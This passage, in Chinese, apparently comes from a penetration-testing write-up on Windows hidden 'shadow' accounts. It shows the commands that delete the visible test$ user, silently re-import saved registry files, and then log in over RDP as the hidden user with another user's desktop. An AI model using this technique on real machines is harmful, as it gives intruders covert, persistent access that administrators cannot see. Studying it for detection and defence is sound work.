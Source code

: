 删除test$

```
net user test$ /del
```

![image-20240409153133346](images/7.png)

此时已经看不到`test$`用户了

导入注册表

```
regedit /s 1.reg
regedit /s 2.reg
```

![image-20240409153433498](images/8.png)

3389登录，使用test$用户，但是桌面这些都是DawnT0wn用户的
